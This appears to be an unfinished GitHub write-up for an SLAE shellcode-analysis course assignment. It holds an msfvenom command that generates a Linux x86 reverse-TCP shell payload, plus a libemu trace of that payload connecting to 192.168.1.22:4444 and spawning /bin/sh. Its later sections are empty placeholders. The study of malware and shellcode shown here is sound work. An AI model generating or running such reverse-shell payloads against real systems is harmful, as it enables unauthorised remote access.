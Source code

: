 # SLAE course
This course can be found here:
[Link to course](https://www.pentesteracademy.com/course?id=3)

## Assignment#5: What to do ?
For this assignment we have to:
* Take up to three shellcodes examples created by Msfvenom
* Use a disassembler like GDB/Ndisasm/Libemu to reverse them
* Present the analysis 

Now, let's get to work.
=

## linux/x86/shell_reverse_tcp
```console
#msfvenom -p linux/x86/shell_reverse_tcp -f raw | ./sctest -vvv -Ss 100000 -G reverse_shell.dot
#dot reverse_shell.dot -T png -o reverse_shell.png
```
Here is a graphical view:

![graph_reverse_shell](https://github.com/RomainLanglois/Shellcode/blob/master/SLAE/assignment5/reverse_shell.png)

C pseudo Code:
```console
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 369207488 (host=192.168.1.22);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```
Assembly:

## Second shellcode
Graphical view:

C pseudo code:

Assembly:

linux/x86/shell_reverse_tcp (Version Staged)*
ELSE 
linux/x86/shell_bind_tcp
OR 
linux/x86/shell_bind_tcp (staged)


## linux/x86/meterpreter_reverse_tcp (stageless)
Graphical view:

C pseudo code:

Assembly: